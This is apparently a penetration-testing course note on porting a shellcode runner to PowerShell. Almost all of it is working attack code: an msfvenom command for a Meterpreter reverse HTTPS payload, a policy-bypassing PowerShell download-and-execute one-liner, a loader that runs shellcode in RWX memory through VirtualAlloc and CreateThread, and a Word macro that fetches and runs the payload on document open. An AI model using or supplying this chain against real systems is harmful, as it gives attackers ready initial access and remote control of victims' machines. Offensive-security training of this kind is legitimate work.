 ## Porting Shellcode Runner to PowerShell

Use the .NET `Copy` method from the `System.Runtime.InteropServices.Marshal` namespace to copy data from a managed array to an unmanaged memory pointer.

Previous VBA shellcode runner continued executing because we never terminated its parent process (Word). 

This time, our shell dies as soon as the parent `PowerShell` process terminates.

=> Instruct PowerShell to delay termination until our shell fully executes using the Win32 **WaitSingleObject** API

`x64` Meterpreter Handler

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

```bat
powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))
```

### run.txt

```pwsh
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
	[DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
        UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...
$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
``

```VB
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub
```